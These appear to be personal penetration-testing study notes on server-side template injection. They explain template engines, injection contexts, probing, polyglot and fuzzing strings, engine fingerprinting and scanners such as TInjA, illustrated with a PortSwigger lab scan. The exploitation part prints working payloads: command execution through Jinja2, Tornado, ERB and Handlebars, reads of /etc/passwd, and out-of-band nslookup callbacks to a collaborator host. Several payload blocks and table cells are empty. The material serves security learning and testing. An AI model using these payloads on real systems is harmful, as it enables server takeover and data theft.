

**Table of Contents**
- [[#Templating engines]]
	- [[#Template syntax by engine]]
	- [[#Server-side vs. client-side rendering (SSTI vs. CSTI)]]
- [[#SSTI]]
	- [[#Root cause]]
	- [[#Potential impact]]
- [[#Injection contexts]]
	- [[#Plaintext context]]
	- [[#Code context]]
- [[#Potential injection points]]
	- [[#Checking how HTML is handled]]
- [[#Probing for SSTI]]
	- [[#Determining context]]
	- [[#Polyglot payloads]]
	- [[#Fuzzing]]
- [[#Fingerprinting the template engine]]
	- [[#Causing errors on purpose]]
	- [[#Distinctive syntax]]
- [[#Exploitation]]
	- [[#Jinja2 (Python)]]
	- [[#Twig (PHP)]]
	- [[#FreeMarker (Java)]]
	- [[#Velocity (Java)]]
	- [[#ERB (Ruby/Rails)]]
	- [[#Smarty (PHP)]]
	- [[#Tornado (Python)]]
- [[#Automated tools]]
	- [[#SSTIMap]]
	- [[#TInja]]
- [[#References and further reading]]
## Templating engines

>A **templating engine** is a software component that combines a static template with dynamic data at runtime to generate a text-based output, most commonly HTML or XML.

>A **template** is a file or string that contains static content and placeholders — delimiters — for variables, control flow, and expressions to be evaluated by the engine.

- The whole point of a template engine is separation of concerns: *presentation logic* (what the page looks like) stays out of *business logic* (what the application does).
- A developer writes a template once; the engine fills in the blanks on every request.

>[!example]+
>- A template with a placeholder for a variable:
> ```HTML
> <h2>Hello, {{ username }}!</h2>
> ```
>- Rendered with `username = "Jane"`:
> ```HTML
> <h2>Hello, Jane!</h2>
> ```

- Most template engines support:
	- Variable interpolation.
	- Conditionals (`if`, `unless`; such as for adding blocks of content conditionally).
	- Loops (`for`, `while`; used to generate multiple similar elements).
	- Macro definitions and includes (such as for embedding other templates in the current page).
	- Filters/transformers (e.g., `{{ name | lower }}`).
	- Function calls.
	- Access to environment or system-level variables.
	- Template inheritance.

>[!interesting]+ How template engines work internally
>When a template engine receives a template string, it processes it through several stages:
>1. **Tokenization**: The engine scans the template string and breaks it into tokens — static text blocks, delimiter markers, variable references, expression blocks, and control glow tags.
>2. **Parsing**: Tokens are organized into an internal tree structure, most commonly an **Abstract Syntax Tree (AST)**. The AST represents the template's logic in a form the engine can traverse.
>3. **Evaluation / rendering**: The engine walks the AST; for each node, it either outputs static text directly, resolves a variable reference from the rendering context, or evaluates an expression. The final output is assembled and returned.

### Template syntax by engine

- Template syntax varies by engine:

| Engine           | Language | Expression syntax | Statement syntax  |
| ---------------- | -------- | ----------------- | ----------------- |
| Jinja2           | Python   | `{{ expr }}`      | ``       |
| Twig             | PHP      | `{{ expr }}`      | ``       |
| Mako             | Python   | `${expr}`         | `<% %>`           |
| Django Templates | Python   | `{{ var }}`       | ``       |
| Smarty           | PHP      | `{$var}`          | `{tag}`           |
| FreeMarker       | Java     | `${expr}`         | `<#tag>`          |
| Velocity         | Java     | `$var`            | `#tag`            |
| Thymeleaf        | Java     | `${expr}`         | `th:*` attributes |
| ERB              | Ruby     | `<%= expr %>`     | `<% code %>`      |
| Pebble           | Java     | `{{ var }}`       | ``       |
| Tornado          | Python   | `{{ expr }}`      | ``       |
### Server-side vs. client-side rendering (SSTI vs. CSTI)

- **Server-side rendering** means the template is parsed and evaluated on the server, then sent to the client. The client only ever sees the finished output.
- **Client-side rendering** means the raw template ships to the browser, where JavaScript (Angular, Vue, Handlebars-in-the-browser) fills it in inside the DOM.

>[!important] SSTI lives exclusively on the server side.
>- If user input lands inside a template that's being evaluated *in the browser* instead of on the server, the vulnerability is classified as **CSTI (Client-Side Template Injection)**, not SSTI. The potential impact is different (see [[XSS]]).
>- Tools like `TInjA` (see [[#Automated tools]] section) test for both, so confirm which one you're actually looking at before you pick a payload set.

## SSTI

>**SSTI (Server-Side Template Injection)** is a vulnerability that occurs when user-controlled input is incorporated into a server-side template without proper validation and sanitization. This allows an attacker to inject template syntax that gets evaluated by the template engine during rendering.

### Root cause

>[!important] The root cause of SSTI vulnerabilities is a **failure to maintain the boundary between user-controlled *data* and *template logic***.

>[!example]+
>- A Flask route renders a template with user-controlled data:
> ```Python
> ...
> get_username = request.args.get("username")
> return render_template("profile.html", username=get_username)
> ```
> 
>- And `profile.html`:
> 
> ```HTML
> <h1>Welcome, {{ username }}!</h1>
> ```
> - A request to `profile?username=Jane` renders `<h1>Welcome, Jane!</h1>` — looks completely normal. 
> - But nothing validates `username`, so it's inserted as-is into the template before rendering. 
> - Send `profile?username=7*7` and the template the engine actually sees becomes `<h1>Welcome, {{ 7*7 }}!</h1>`. The engine evaluates the expression, and you get `<h1>Welcome, 49!</h1>` back.
> 
> That's how you confirm SSTI: your input isn't being treated as text, it's being treated as code.

### Potential impact

- Impact depends on the engine and how it's configured, but in the common worst case you're looking at:

- **Remote Code Execution (RCE)** 
	- Most engines expose enough of the application language's internals (Python/Java/Ruby/PHP) so it's often possible to traverse classes or import modules to get `os.system()`, `Runtime.exec()`, `popen()`, or an equivalent.Whatever you run executes as the web app's process user.

- **File read/write** 
	- Engines with filesystem access let you read files like `/etc/passwd`, application source code, private keys, or sometimes write files to disk.


- **Sensitive data exposure** 
	- Template context variables, configuration objects (such as `{{ config }}` in Flask), environment variables, and framework internals are often readable directly even without RCE.

- **Denial of Service** 
	- Infinite loops, memory exhaustion through recursive template evaluation, or CPU exhaustion via computationally expensive expressions may lead to Denial of Service (DoS).

- **Lateral movement** 
	- Once you're executing on the app server, you can pivot to internal services, databases, cloud metadata endpoints (SSRF), or neighboring containers.
	- From the compromised application server, pivot to internal services, databases, metadata endpoints (cloud SSRF), or adjacent containers.

## Injection contexts

- SSTI detection and exploitation hinge heavily on **where in the template structure** your input lands, i.e., the **injection context**.
- There are two contexts:
	- **Plaintext context**
	- **Code context**
### Plaintext context

- In **plaintext context**, you input is concatenated into the template string *outside* of any existing delimiter block — it lands on the *static (data)* portion of the template.

> [!example]+
> 
> ```Python
> username = request.args.get("username", "Guest") # user-controlled input
> template_string = "Welcome, " + username + "!"   # direct concatenation of user input into a template string
> template = Template(template_string)
> return template.render()                         # render the template
> ```
> - The static template has no `{{ }}` blocks at all — your input *becomes* the raw template content. 
> - Inject `{{ 7*7 }}` and the final string is `Welcome, {{ 7*7 }}!`, which is valid Jinja2 and renders to `Welcome, 49!`.

>[!important] In the **plaintext context**, you do not need to escape any existing delimiters; you introduce **new template expressions** from scratch. 

```js
{{7*7}}
${7*7}
<%=7*7%>
#{7*7}
```

>[!note] Plaintext context SSTI is often mistaken for reflected XSS.
>- The surface symptom — your input appears in the response — looks the same in SSTI and XSS. The key difference is that SSTI executes **server-side**, which makes it significantly more dangerous than XSS.

### Code context

- In **code context**, your input lands *inside* an existing delimiter block — `{{ ... }}`, ``, `${ ... }`, etc. The engine is already treating the input as *template code*.

>[!example]+
> ```python
> username = request.args.get("username", "Guest")
> template_string = "Welcome, {{ " + username + " }}!"
> template = Template(template_string)
> template.render()
> ```
> 
>- If the expected parameter is `user.name`, sending `user.name }} {{ 7 * 7` results in `Hello, {{ user.name }} {{ 7 * 7 }}!`, which evaluates to `Hello, Jane 49!`.
>- Note that `user.name` was probably never meant to be attacker-controlled at all. Lack of validation is often based on the assumption that nobody would touch it.

- So, you're injecting into the middle of an expression that was already going to run.

>[!important] In the **code context**, you need to escape the existing template expression before you can introduce anything new. 

- Code-context SSTI is usually harder to spot than plaintext context, and this is why it is often overlooked:
	- The injection happens *inside* template expressions, so it doesn’t directly reflect user input as raw HTML; so no XSS-style tell.
	- Nothing looks "broken" until you go looking.
	- You have to escape the existing expression before you can inject anything new.

>[!note] Injecting a plaintext-style payload like `{{ 7 * 7 }}` into a code context would result in something like `{{ {{ 7 * 7 }} }}`. This is invalid syntax almost everywhere and will error out instead of evaluating.

>[!tip] A good early tell for code-context SSTI is dot-notation references like `user.name` or `config.debug` in parameters that otherwise look normal. This is usually a sign that the value is inserted directly into an existing expression.

## Potential injection points

>[!important] Any place where user input is reflected in the application's response can potentially become an SSTI attack vector. 

- Search for user-controlled input entry **reflected in application response**.
	- URL query parameters (e.g., `?name=user.name`).
	- `POST` body parameters (form fields, JSON fields, XML nodes).
	- HTTP headers (`User-Agent`, `Referer`, `X-Forwarded-For`, `Accept-Language`, custom headers).
	- Cookies.
	- Path segments (`/user/username/profile`).
	- File upload metadata (filenames, EXIF data if processed).
- Pay attention to dynamically-generated pages: profile pages, search results, error messages, notification emails, PDF generators, invoice systems — anything that echoes back something you typed.

>[!tip] Any time find a reflected or stored [[XSS]], always test for SSTI on the same parameter. 

### Checking how HTML is handled

- Before assuming you're dealing with SSTI, inject a r**aw HTML tag** (say, `<h1>tag</h1>`) into the parameter value and observe how the application reflects it:

```bash
https://example.com/?name=test<h1>tag</h1>
```

- If the tag **renders as HTML** unescaped (for example, `<h1>tag</h1>`) →
	- The application allows HTML injection at that reflection point. 
	- This is a strong indicator that XSS may be possible (though you still need to confirm JavaScript execution) likely reflected XSS, but still worth testing for SSTI on the same point.
- If the tag is **HTML-encoded** (for example, `&lt;h1&gt;tag&lt;/h1&gt;`) → 
	- The application is escaping the value in that HTML context. 
	- This makes XSS less likely there, but there maybe workarounds you should test for.
- If the tag i removed entirely →
	- The application may be filtering or sanitizing HTML server-side. 
	- Continue testing with SSTI-specific payloads, as template evaluation may occur before filtering or encoding.

>[!note] See [[XSS]].

> [!note] SSTI and XSS are not mutually exclusive. 
> - Template expressions are evaluated on the server before the HTML is sent to the browser, while XSS occurs when the browser interprets the resulting HTML or JavaScript.
> - A single injection point can therefore be vulnerable to SSTI, XSS, both, or neither, so testing for one should not rule out testing for the other.

## Probing for SSTI
### Determining context

Test each input with both HTML and template syntax:

- **Plaintext context**
	- The user input is directly inserted into the rendered text. 
	- To detect a plaintext-context SSTI, inject a simple arithmetic expression using common delimiters (e.g. `{{7*7}}`, `${7*7}`, `<%=7*7%>`, `#{7*7}`, etc.). 
	- A `49` coming back in response to `7*7` is an indicator of server-side evaluation; in this case, you're likely dealing with a plaintext-context SSTI vulnerability. 

```
{{7*7}}
${7*7}
<%=7*7%>
#{7*7}
```

>[!note] Shared syntax doesn't always mean the same behavior.
>- `{{...}}` in Handlebars and Mustache is plain variable interpolation, not arbitrary expression evaluation. You won't get `49` out of those even though the delimiters match Jinja2's.

- **Code context**
	- The input is placed inside a template statement or variable name. 
	- Start by injecting harmless HTML (`<script>`, `<tag>`) to verify no XSS; if the input is treated as code inside delimiters, not plaintext/HTML, you won't see tags reflected in response. 
	- Then attempt to break out of the template syntax (e.g. `}}<tag>`). If the response suddenly includes your injected HTML or exposes otherwise hidden data suggests a code-context SSTI vulnerability. 

### Polyglot payloads

- If previous tests fali, try a **polyglot payload** — a string of special characters used in multiple template engines (e.g. `${{<%[%'"}}%\`).
- Significant changes in the output (errors or missing characters) can reveal the presence of an SSTI vulnerability and maybe tell which engine is in use.
- For example, many engines will error on invalid syntax, exposing stack traces or error messages.

```
${{<%[%'"}}%\.
```

```
<%'${{/#{@}}%>{{
```

```
{{7*7}}${7*7}<%=7*7%>#{7*7}@{7*7}~{7*7}[=7*7]
```

>[!tip] [`Hackmanit/Template Injection Table`](https://cheatsheet.hackmanit.de/template-injection-table/) maps out which polyglot payloads produce which responses across dozens of engines ([source code](https://github.com/Hackmanit/template-injection-table?tab=readme-ov-file)).

### Fuzzing

- Alternatively, you can fuzz common delimiters and see how the application responds. 

```
}
}}
%>
]
'
'}
'}}
'%>
']
"
"}
"}}
"%>
"]
${
}
{{
}}
<%=
%>
#{
```

>[!tip] Watch nested contexts: JSON, JavaScript, HTML attributes, or string concatenations may require additional escape techniques.

## Fingerprinting the template engine

- Before sending probes, gather information on the application's stack to narrow the candidate template list:
	- **HTTP response headers**: `X-Powered-By: Express`, `Server: Werkzeug`, `X-Generator: Django` all imply specific template engines.
	- **File extensions in URLs**: `.erb`, `.j2`, `.twig`, `.ftl`, `.vm` reveal the engine directly.
	- **Error page formatting**: Default error pages from Flask, Django, Ruby on Rails, Spring Boot, and Laravel have distinctive visual styles and messages.
	- **Cookie names**: `PHPSESSID` → PHP stack (Twig/Smarty/Blade); `JSESSIONID` → Java stack (FreeMarker/Velocity/Thymeleaf); `session` → Python (Jinja2/Mako/Django).
	- **Framework-specific paths**: `/wp-admin` (WordPress/Smarty), `/admin/login` (Django), `/actuator/health` (Spring Boot → FreeMarker/Thymeleaf).

- Look for template file extensions:

```PowerShell
*.tpl, *.tmpl, *.template
*.j2, *.jinja, *.jinja2 (Jinja2)
*.twig (Twig)
*.ftl, *.ftlh (Freemarker)
*.vm (Velocity)
*.hbs, *.handlebars (Handlebars)
*.erb (ERB)
*.jade, *.pug (Pug)
*.ejs (EJS)
```

- Common template languages and links to documentation:

| Template engine                                              | Language/framework |
| ------------------------------------------------------------ | ------------------ |
| [`Liquid`](https://shopify.github.io/liquid/)                | Ruby               |
| [`Django Template Language`](https://www.djangoproject.com/) | Python/Django      |
| [`Jinja`](https://palletsprojects.com/p/jinja/)              | Python             |
| [`Mako`](https://www.makotemplates.org/)                     | Python             |
| [`Tornado`](https://www.tornadoweb.org/en/stable/index.html) | Python/Tornado     |
| [`CheetahTemplate`](https://cheetahtemplate.org/)            | Python             |
| [`Blade`](https://laravel.com/docs/10.x/blade)               | PHP/Laravel        |
| [`Smarty`](https://www.smarty.net/)                          | PHP                |
| [`Twig`](https://twig.symfony.com/)                          | PHP                |
| [`Velocity`](https://velocity.apache.org/)                   | Java               |
| [`Thymeleaf`](https://www.thymeleaf.org/)                    | Java               |
| [`Tiles`](https://tiles.apache.org/)                         | Java               |
| [`FreeMarker`](https://freemarker.apache.org/)               | Java               |
### Causing errors on purpose

Invalid expressions often reveal the engine and version in error messages and stack traces. 

- **Invalid mathematical expressions** (e.g., dividing by zero):

```
${7/0}
{{7/0}}
<%=7/0%>
```

- **Undefined variables**:

```Python
<%=1+undefinedvariablexyz %> # undefinedvariablexyz is probably not defined in the application -> error
{{1+undefinedvariablexyz}}
```

- **Invalid concatenation expressions** (type mismatch, e.g., number + strings):

```
{{ 1 + "notanumber" }}
${"x" + 1}
```

### Distinctive syntax

-  Inject expressions unique to engines:

| Template engine | Payload                                                   |
| --------------- | --------------------------------------------------------- |
| Jinja2          | `{{config}}` ·<br>`{{request}}` ·<br>`{{7*'7'}}`          |
| Twig            | `{{_self}}` ·<br>`{{app}}` ·<br>`{{7*'7'}}`               |
| Smarty          | `{$smarty.version}` ·<br>`{php}echo phpversion();{/php}`  |
| FreeMarker      | `${.version}` ·<br>`<#assign x=7*7>${x}`                  |
| Velocity        | `$class.inspect(java.lang.Runtime)` ·<br>`#set($x=7*7)$x` |
| ERB             | `<%= ENV['HOME'] %>`                                      |
| Tornado         | `{{7*7}}`                                                 |
| Mako            | `${7*7}`                                                  |

>[!important] `{{ 7 * '7' }}` in Jinja2 vs. Twig
> - In Jinja2, `{{ 7 * '7' }}` -> `7777777` (repeats the string seven times or errors).
> - In Twig, `{{ 7 * '7' }}` -> `49` (PHP casts the string to integer).

>[!tip] See [`Template Engines Injection 101 — Mahmoud Mohamed, Medium`](https://medium.com/@0xAwali/template-engines-injection-101-4f2fe59e5756); it summarizes the syntax and detection methodology for many template engines for JavaScript, Python, Ruby, Java, and PHP. It also explains how to differentiate between engines that use the same syntax.

- Decision tree from [`PortSwigger`](https://portswigger.net/web-security/server-side-template-injection) (by James Kettle):



>[!note] Source: [`Server-Side Template Injection — PortSwigger Web Security Academy`](https://portswigger.net/web-security/server-side-template-injection). 

## Exploitation

- Once you have confirmed SSTI and identified the engine, exploitation follows a consistent methodology regardless of language: traverse the object graph to reach a class or module that can execute system commands.

	1. **Read the engine's documentation** — specifically the security section. Most engines document dangerous patterns explicitly.
	2. **Enumerate the rendering context** — what variables and objects are available in the template's namespace? Start with built-ins and framework-injected global variables.
	3. **Traverse to dangerous classes** — follow object references to reach OS-level primitives.
	4. **Execute commands** — call `popen`, `exec`, `Runtime.exec()`, or equivalent.
	5. **Exfiltrate output** — read command output back into the template response.

- Useful resources:
	- [`Server Site Template Injection - ASP.NET — PayloadsAllTheThings`](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/ASP.md)
	- [`Server Site Template Injection - Java — PayloadsAllTheThings`](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/Java.md)
	- [`Server Site Template Injection - JavaScript — PayloadsAllTheThings`](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/JavaScript.md)
	- [`Server Site Template Injection - PHP — PayloadsAllTheThings`](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/PHP.md)
	- [`Server Site Template Injection - Python — PayloadsAllTheThings`](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/Python.md)
	- [`Server Site Template Injection - Ruby — PayloadsAllTheThings`](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/Ruby.md)

> [!example]+ Example: RCE in Jinja2
> ```Python
> user.name }}{{ os.popen('id').read() }}
> ```
> 
> - `user.name }}` closes the existing variable expression.
> - `` imports the `os` module.
> - `{{ os.popen('id').read() }}` runs the `id` command and reads the output.
> 

>[!note]+ Try accessing build-in variables and objects
> 
> - Jinja2: `{{ config }}`, `{{ self }}`, `{{ cycler.__init__.__globals__.os.popen('id').read() }}`
> - Freemarker: `${.vars}`, `${.data_model}`
> - ERB: `<%= ENV['HOME'] %>`     
> - Smarty: `{php}` tags (if enabled), `$smarty.server`
> - Twig: `{{ _self }}`, `{{ _context }}`


### Python

>[!note] See [`Server Site Template Injection - Python — PayloadsAllTheThings`](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/Python.md).
#### Jinja2

```Python
{{ 7*7 }}  → 49
{{ 7*'7'}} → 7777777
```

- Access the application configuration object:

```
{{ config.items() }}
```

- Dump the current context, including the available filters and tests (works if the Debug Extension is enabled):

```

```
#### Tornado

```Python
{{ 7*7 }}  → 49
{{ 7*'7'}} → 7777777
```

- Remove command execution:

```python
{{os.system('whoami')}}
```

- Out-of-Band (OOB) interaction:

```python
{{os.system('nslookup <collaborator_id>.oastify.com')}}
```


### PHP

>[!note] See [`Server Site Template Injection - PHP — PayloadsAllTheThings`](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/PHP.md).

#### Twig


#### Smarty


### Java

>[!note] See [`Server Site Template Injection - Java — PayloadsAllTheThings`](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/Java.md).

#### FreeMarker


#### Velocity


### Ruby/Rails

>[!note] See [`Server Site Template Injection - Ruby — PayloadsAllTheThings`](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/Ruby.md).

#### ERB

```ruby
<%= 7 * 7 %>
```

- File read:

```ruby
<%= File.open('/etc/passwd').read %>
```

- List files and directories:

```ruby
<%= Dir.entries('/') %>
```

- Remote code execution:

```ruby
<%= `ls /` %>

```
```ruby
<%=(`nslookup oastify.com`)%>
```
```ruby
<%= system('cat /etc/passwd') %>
```
```ruby
<%= IO.popen('ls /').readlines()  %>
```
```ruby
<% require 'open3' %><% @a,@b,@c,@d=Open3.popen3('whoami') %><%= @b.readline()%>
```
```ruby
<% require 'open4' %><% @a,@b,@c,@d=Open4.popen4('whoami') %><%= @c.readline()%>
```

### JavaScript

>[!note] See [`Server Site Template Injection- JavaScript — PayloadsAllTheThings`](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/JavaScript.md).

#### Handlebars

- Basic injection:

```js
{{ this }}
```
```js
{{ self }}
```

- Command execution:

```js
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return require('child_process').execSync('id');"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```
## Automated tools

- [`epinna/Tplmap`](https://github.com/epinna/tplmap) — detects and exploits SSTI/code injection across 22 engines.
- [`vladko312/SSTImap`](https://github.com/vladko312/SSTImap) — a maintained fork/successor of `Tplmap`, 29 engines.
- [`Hackmanit/TInjA`](https://github.com/Hackmanit/TInjA) — tests for both SSTI and CSTI, covers 44+ template engines.
- [`Backslash Powered Scanner`](https://portswigger.net/bappstore/9cff8c55432a45808432e26dbb2b41d8) — Burp extension (Pro + DAST only) that complements the active scanner and can flag both known and novel SSTI patterns.

- For coverage beyond what these tools find automatically, fuzz suspect parameters with dedicated wordlists:
	- [`payloadbox/ssti-payloads`](https://github.com/payloadbox/ssti-payloads)
	- [`Hackmanit/template-injection-table`](https://github.com/Hackmanit/template-injection-table)

- Other resources that come useful during testing:
	- [`Template Injection Table`](https://github.com/Hackmanit/template-injection-table)
	- [`Template Injection Playground`](https://github.com/Hackmanit/template-injection-playground)

### `SSTIMap`

>[`vladko312/SSTImap`](https://github.com/vladko312/SSTImap) — a maintained fork/successor of `Tplmap`, 29 engines.

> [!note]+ Installation
> ```bash
> git clone https://github.com/vladko312/SSTImap
> ```
> ```bash
> cd SSTImap
> ```
> ```bash
> python -m venv .venv
> ```
> ```bash
> source ./.venv/bin/activate
> ```
> ```bash
> pip install -r requirements.txt
> ```
### `TInja`

>See [`Hackmanit/TInjA`](https://github.com/Hackmanit/TInjA) — tests for both SSTI and CSTI, covers 44+ template engines.

>[!note]+ Installation
>Prebuilt binaries of TInjA are provided on the [releases page](https://github.com/Hackmanit/TInjA/releases).
>- To get one:
>```bash
>wget https://github.com/Hackmanit/TInjA/releases/download/1.2.0/TInjA_1.2.0_linux_amd64.tar.gz
>```
>```bash
>tar -xvzf TInjA_1.2.0_linux_amd64.tar.gz
>```
>

- Scan a single URL:

```bash
tinja url -u "http://example.com"
```

- Scan multiple URLs at once:

```bash
tinja url -u "http://example.com" -u "https://example.com/path2"
```

- Scan URLs provided in a file:

```bash
tinja url -u "file:urls.txt"
```

- Scan a single URL by passing a file with a raw HTTP request:

```bash
tinja raw -R "request.txt"
```

- Specify request headers to add to requests:

```bash
tinja url -u "http://example.com" -H "Authentication: Bearer ey..."
```

- Specify cookies to add to requests:

```bash
tinja url -u "http://example.com" -c "sessoin=ACB123..."
```

- Specify `POST` body to add to requests:

```bash
tinja url -u "http://example.com" -d "username=Jane&password=anything"
```

- Scan for CSTI in addition to CSTI:

```bash
tinja url -u "http://example.com" --csti
```

| Option              | Description                                                                               |
| ------------------- | ----------------------------------------------------------------------------------------- |
| `-H`, `--header`    | Custom HTTP headers to add to requests.                                                   |
| `-c`, `--cookie`    | Custom cookies to add to requests.                                                        |
| `-d`, `--data`      | Custom `POST` data to add to requests.                                                    |
| `--csti`            | Enable scanning for CSTI (not set by default).                                            |
| `--proxyurl`        | A URL of a proxy to be used for scanning.                                                 |
| `--proxycertpath`   | Path to a CA certificate for the proxy in PEM format (required for scanning HTTPS sites). |
| `-r`, `--ratelimit` | The maximum number of requests per second, default not set.                               |

>[!example]+
> ```bash
> ./tinja url -u 'https://0aba00b203e566db80996281003b00a4.web-security-academy.net/?message=Unfortunately%20this%20product%20is%20out%20of%20stock'
> ```
> 
> ```bash
> TInjA v1.2.0 started at 2026-06-26_12-24-31
> 
> Analyzing URL(1/1): https://0aba00b203e566db80996281003b00a4.web-security-academy.net/?message=Unfortunately%20this%20product%20is%20out%20of%20stock
> ===============================================================
> Status code 200
> Analyzing query parameter  message  =>  [Unfortunately this product is out of stock]
> [*] Value  W7IO34UHG42DLVFZ  of query parameter  message  is being reflected 1 time(s) in the response body
> 
> [!] The polyglot <%'${{/#{@}}%>{{ triggered an error: Status Code 500
> [!] The polyglot p ">[[${{1}}]] was rendered in a modified way: [p &quot;&gt;[[${{1}}]]] (HTML encoded)
> [*] The polyglot p ">[[${{1}}]] returned the response(s) [p &quot;&gt;[[${{1}}]]]
> [!] The polyglot <%=1%>@*#{1} was rendered in a modified way: [1@*#{1}]
> [*] The polyglot <%=1%>@*#{1} returned the response(s) [1@*#{1}]
> [*] The polyglot {##}/*{{.}}*/ returned the response(s) [unmodified]
> 
> A template injection was detected and the template engine is now being identified.
> [!] The polyglot <%%a%> was rendered in a modified way: [&lt;%a%&gt;]
> [*] The polyglot <%%a%> returned the response(s) [&lt;%a%&gt;]
> [!] The polyglot <%'#{@} was rendered in a modified way: [&apos;#{@}]
> [*] The polyglot <%'#{@} returned the response(s) [&apos;#{@}]
> [+] A template engine was detected, but could not be identified (certainty: Low)
> 
> ===============================================================
> 
> Successfully finished the scan
> [+] Suspected template injections: 1
> [+] 0 Very High, 0 High, 0 Medium, 1 Low, 0 Very Low certainty
> 
> Duration: 1.941878496s
> Average polyglots sent per user input: 6
> ```

## References and further reading 

- [`Server-side template injection — PortSwigger Web Security Academy`](https://portswigger.net/web-security/server-side-template-injection)
- [`Exploiting server-side template injection vulnerabilities — PortSwigger Web Security Academy`](https://portswigger.net/web-security/server-side-template-injection/exploiting)
- [`Server-Side Template Injection — James Kettle, PortSwigger Research`](https://portswigger.net/research/server-side-template-injection)
- [`Server Side Template Injection — swisskyrepo/PayloadsAllTheThings`](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection)
- [`ASP.md — PayloadsAllTheThings`](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/ASP.md)
- [`Java.md — PayloadsAllTheThings`](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/Java.md)
- [`JavaScript.md — PayloadsAllTheThings`](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/JavaScript.md)
- [`PHP.md — PayloadsAllTheThings`](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/PHP.md)
- [`Python.md — PayloadsAllTheThings`](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/Python.md)
- [`Ruby.md — PayloadsAllTheThings`](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/Ruby.md)
- [`SSTI (Server Side Template Injection) — Hacktricks`](https://book.hacktricks.wiki/en/pentesting-web/ssti-server-side-template-injection/index.html)
- [`Template Engines Injection 101 — Mahmoud Mohamed, Medium`](https://medium.com/@0xAwali/template-engines-injection-101-4f2fe59e5756)

- To be done:
	- Blind SSTI
	- Fill in payloads in the Exploitation section
	- Add a section about the Backslash Powered Scanner